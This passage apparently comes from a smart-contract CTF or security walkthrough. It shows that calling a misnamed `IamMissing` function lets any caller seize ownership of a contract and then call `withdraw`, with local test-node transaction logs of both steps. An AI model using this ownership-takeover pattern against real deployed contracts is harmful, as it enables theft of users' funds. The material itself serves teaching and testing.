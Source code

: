 To fix that, we can simply call `IamMissing` to become the owners and try to withdraw again:
```
  Contract call:       Missing#IamMissing
  Transaction:         0x5d699ac4ebf9e3a71db2369db24a68f6ed1d02d97740b6565a42a6b41b94f1c3
  From:                0x70997970c51812dc3a010c7d01b50e0d17dc79c8
  To:                  0x8a791620dd6260079bf849dc5567adc3f2fdc318
  Value:               0 ETH
  Gas used:            47130 of 30000000
  Block #12:           0xc7819d4a5ed01c09a2ec5dfdafffcf17e913b0b999bd2f79cb569087c9aaf0a2

  console.log:
    [Missing] New owner set to:
    0x70997970c51812dc3a010c7d01b50e0d17dc79c8

eth_getTransactionReceipt
eth_getBlockByNumber (7)
eth_gasPrice
eth_sendTransaction
  Contract call:       Missing#withdraw
  Transaction:         0x7dc051006cfa97479e26bf9f8ca4f061c7fcd924cb602bf98bab3dcb2f4c556f
  From:                0x70997970c51812dc3a010c7d01b50e0d17dc79c8
  To:                  0x8a791620dd6260079bf849dc5567adc3f2fdc318
  Value:               0 ETH
  Gas used:            23840 of 30000000
  Block #13:           0x0caa73ffae3e31cadb74858a9f08ea99586a3f6209351da979bcd083dd0fc0a5

eth_getTransactionReceipt
eth_getBlockByNumber
eth_getTransactionReceipt
eth_getBalance (3)
eth_getBlockByNumber (6)
```
